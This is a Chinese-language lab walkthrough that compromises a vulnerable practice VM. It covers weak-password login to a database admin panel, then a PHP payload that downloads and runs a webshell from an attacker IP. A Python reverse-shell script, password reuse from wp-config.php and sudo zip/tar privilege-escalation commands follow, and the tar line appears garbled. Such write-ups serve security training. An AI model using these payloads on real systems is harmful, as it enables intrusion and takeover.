# 目录遍历漏洞

## 信息收集

靶机IP：192.168.0.105



## 目录探测





找看看可疑目录：/dbadmin/

进入页面后发现有个php目录，点进去：



尝试弱口令登录：admin

直接就进去了



显然这个网站是一个数据库管理系统，数据库数据会存放在/usr/databases 路径下

我们可不可以利用这一点上传webshell拿到权限？

## webshell

隔了一天做，靶机IP变为192.168.1.10

### 生成webshell

直接使用kali自带的Webshell（修改攻击机IP地址和监听端口即可）



### 编写payload

在网页中新建数据库、数据表和字段，在字段中写入命令（payload）

<?php system("cd /tmp;wget http://192.168.1.13:8000/webshell.php;chmod +x webshell.php;php webshell.php");?>

将该木马写入后还无法访问到，因为数据库文件的默认存放位置是/usr/databases/，在该目录的文件是无法直接访问到的，因此我们需要通过改名移动文件到可以访问的位置。



然后我们访问dbadmin界面



可以看到我们上传的木马文件，此时开启监听



成功拿到shell

## 提权

我们利用密码复用

找到敏感文件（一般为配置文件config）=> home/zico/wordpress/wp-config.php



成功找到了zico用户的密码，因此我们猜测root用户会不会也可以使用这个密码登录

sWfCsfJSPV9H3AmQzw8

我们可以使用ssh登录：



> 使用sudo -l查看当前用户可疑使用root提权的命令信息

使用zip提权

> touch exploit
>
> sudo zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"



提权成功！！！

## 姿势总结

### 提权方法

**1、内核漏洞提权**
通过利用许多内核交互的内核入口函数中的弱点来获取这些权限的过程
内核漏洞利用是利用内核漏洞以提升权限执行任意代码的程序。
uname -a 查看系统的内核版本  cat /etc/issue cat /etc/*-release查看发行版本
searchsploit 寻找内核溢出代码
**2、SUDO提权**
如果攻击者无法直接获得 root 访问权限，他可能会尝试查找任何具有 SUDO 访问权限的用户。
通过sudo -l命令可以列出sudo的权限，从而获得允许低权限用户sudo的二进制文件。
主机sudo配置了二进制文件/bin/find。Find命令是一个比较典型的案例，当find分配了sudo权限时，攻击者可以利用find来执行任意root命令，达到提权的目的。   
**3、明文root密码提权**
大多数Linux密码都和/etc/passwd和/etc/shadow这两个配置文件息息相关。passwd存储了用户，shadow里面是密码的hash。
可以使用john密码本破解用户名和对应密码
**4、计划任务**
定时执行任务由crontab管理，具有所属用户的权限。非root权限只能列出/etc/内系统的计划任务可以被列出
默认这些程序是以root权限执行，但可能会有协议脚本被配置成任意用户可写，我们可以修改脚本等回连rootshell。如果定时执行的是py脚本，可以使用example.py来替换之前的脚本。

		#!/usr/bin/python
		import os,subprocess,socket
	
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(("192.168.1.13",4444))
		os.dup2(s.fileno(),0)
		os.dup2(s.fileno(),1)
		os.dup2(s.fileno(),2)
		p=subprocess.call(["/bin/sh","-i"])
**5、密码复用**
      在配置文件等可疑文件中查找密码，利用找到的密码复用尝试SSH登录
      成功后使用sudo -l查看当前用户可疑使用root提权的命令信息
      利用zip提权
      touch exploit 
      sudo -u root zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"
      利用tar提权
      sudo -u root tar cf /dev/null exploit-checkpoint=l--checkpoint-action="/bin/bash"

